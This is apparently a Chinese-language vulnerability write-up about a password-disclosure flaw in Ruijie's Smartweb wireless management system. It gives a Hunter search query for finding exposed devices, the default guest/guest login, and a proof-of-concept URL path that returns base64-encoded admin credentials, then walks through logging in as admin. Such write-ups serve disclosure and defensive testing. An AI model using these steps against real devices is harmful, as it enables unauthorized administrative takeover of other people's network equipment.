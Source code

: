 # 锐捷 Smartweb管理系统密码信息泄漏漏洞

# 一、漏洞描述
锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

# 二、影响版本
+ 锐捷网络股份有限公司 无线smartweb管理系统

# 三、资产测绘
+ hunter`app.name="Ruijie 锐捷 Smartweb"`
+ 登录页面

![1693026690199-64fbe35e-4db9-4483-9ff4-60fd93531a2c.png](./img/oFjWwQcPR9lcz4hK/1693026690199-64fbe35e-4db9-4483-9ff4-60fd93531a2c-137226.png)

# 四、漏洞复现
1. 使用默认口令`guest/guest`登录系统

![1693026732018-95d1a5fe-3731-47f8-8189-98cdf821d914.png](./img/oFjWwQcPR9lcz4hK/1693026732018-95d1a5fe-3731-47f8-8189-98cdf821d914-202998.png)

2. 使用poc获取管理员`admin`账号密码

```plain
http://xx.xx.xx.xx/web/xml/webuser-auth.xml
```

![1693026854163-84e6635e-5d9e-4385-8fa9-f31a26f91988.png](./img/oFjWwQcPR9lcz4hK/1693026854163-84e6635e-5d9e-4385-8fa9-f31a26f91988-063470.png)

3. base64解码后获取账号密码

![1693026884669-f6bba353-350f-48bc-b932-424eb8363d40.png](./img/oFjWwQcPR9lcz4hK/1693026884669-f6bba353-350f-48bc-b932-424eb8363d40-016540.png)

4. 使用获取的管理账号admin登录系统

![1693026933284-ae25c0ab-b1fb-448a-8f3b-60bd2c8b9798.png](./img/oFjWwQcPR9lcz4hK/1693026933284-ae25c0ab-b1fb-448a-8f3b-60bd2c8b9798-589008.png)



> 更新: 2024-06-24 11:42:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/elegkbnby3vipdi9>